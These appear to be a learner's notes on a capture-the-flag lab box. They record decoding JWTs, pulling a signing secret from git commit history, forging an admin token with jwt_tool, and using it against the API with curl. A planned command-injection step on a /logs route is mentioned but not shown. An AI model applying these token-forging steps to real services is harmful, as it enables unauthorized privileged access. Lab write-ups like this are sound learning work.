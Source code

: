 Trying to communiacte with the API using `curl http://10.10.11.120/api/priv -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGVzdGluZzEiLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.MVj44jrBasG1Hivg_nRB5XQ3iHZyNDwFyfxtjQyWc4I'` we manage to connect ![[Screenshot 2022-04-30 at 13.26.45.png]] but we cannot do much..


## decoding the JWT
`python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGVzdGluZzEiLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.MVj44jrBasG1Hivg_nRB5XQ3iHZyNDwFyfxtjQyWc4I` showed the details of the user I just created:![[Screenshot 2022-04-30 at 13.32.58.png]]
Trying the same but with the JWT found on the website under _/docs_ `python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg` I got a user ID of _theadmin_:![[Screenshot 2022-04-30 at 13.31.33.png]]

At this point I have no experience and therefore decided to get help from a writeup.
So next step looks to be to impeorsonate the _theadmin_ user?

## .git
`git log` showed commits made to the directory. There's a hint _now we can view logs from server :-)_.  ![[Screenshot 2022-05-03 at 12.54.44.png]]
`git show <commit_id>` can be used to show the commits, so I proceeded to try `git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78` and got the token for the secret! --> this can now be used to impersonate theadmin:
![[Screenshot 2022-05-03 at 12.56.39.png]]
Token secret = `gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`

# PLAN
1. Use the token secret to forge a JWT token which can be done with either [this tool](https://jwt.io/introduction/) or the [JWT_Tool](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens) we used earlier.
2. Access as _theadmin_ using this
3. from _/routes/private.js_ _/logs_ is unsanitised --> use this for RCE:
	1. ![[Screenshot 2022-05-03 at 13.30.09.png]]
4. generate a shell of sort

## execution
1. `python3 /home/kali/tools/jwt_tool/jwt_tool.py -I -S hs256 -pc 'name' -pv 'theadmin' -p 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE' eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGVzdGluZzEiLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.MVj44jrBasG1Hivg_nRB5XQ3iHZyNDwFyfxtjQyWc4I`
As the screenshot below shows, the flags used in the above command are responsible for creating the payload which is used for the injectclaims. The signature (-S), and the -pc + -pv values are all taken from the JWT token informatino showed on _/docs_ or which was gathered using JWT_Tool earlier.
![[Screenshot 2022-05-03 at 13.16.05.png]]
_The JWT used is the one generated for the test user created earlier_
Tampered token = `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.rd_Bwv_o7eRaciaYo_9LLL-Ru1LXN_jtkmSRkTEG3ew`
![[Screenshot 2022-05-03 at 13.21.10.png]]
2. `curl http://10.10.11.120/api/priv -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.rd_Bwv_o7eRaciaYo_9LLL-Ru1LXN_jtkmSRkTEG3ew'` worked:
![[Screenshot 2022-05-03 at 13.23.26.png]]
